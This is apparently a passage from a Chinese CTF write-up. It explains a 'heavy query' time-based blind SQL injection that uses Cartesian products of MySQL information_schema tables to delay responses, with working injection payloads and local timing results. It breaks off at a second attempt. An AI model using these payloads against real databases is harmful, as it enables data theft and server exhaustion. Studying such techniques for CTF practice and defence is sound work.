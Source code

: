 个人认为这个方法是本题的最优解<br>
原理就如方法的名字：大负荷查询<br>
即用到一些消耗资源的方式让数据库的查询时间尽量变长<br>
而消耗数据库资源的最有效的方式就是让两个大表做笛卡尔积，这样就可以让数据库的查询慢下来<br>
而最后找到系统表information_schema数据量比较大，可以满足要求，所以我们让他们做笛卡尔积。<br>
我们看一下数量

```
mysql&gt; select count(*) from information_schema.tables;
+----------+
| count(*) |
+----------+
|      298 |
+----------+
```

不难看到系统表里共有298行数据<br>
同样的

```
mysql&gt; select count(*) from information_schema.COLUMNS;
+----------+
| count(*) |
+----------+
|     3131 |
+----------+
1 row in set (0.08 sec)

```

不难看出系统库数据之多<br>
倘若我们对如此大量的数据进行2次甚至3次以上的笛卡尔积运算，运算量是非常可观的<br>
不妨进行一些本地测试，当然这里的延时时间和本地数据库内容的量有关<br>
尝试1：使用3列

```
select * from content where id = 1 and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C);
```

结果

```
+----+-------------------------------------+
| id | content                             |
+----+-------------------------------------+
|  1 | I think you may need sql injection! |
+----+-------------------------------------+
1 row in set (21 min 23.49 sec)
```

延时高达21min<br>
尝试2：使用2列+1表

```
select * from content where id = 1 and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.Tables C);
```
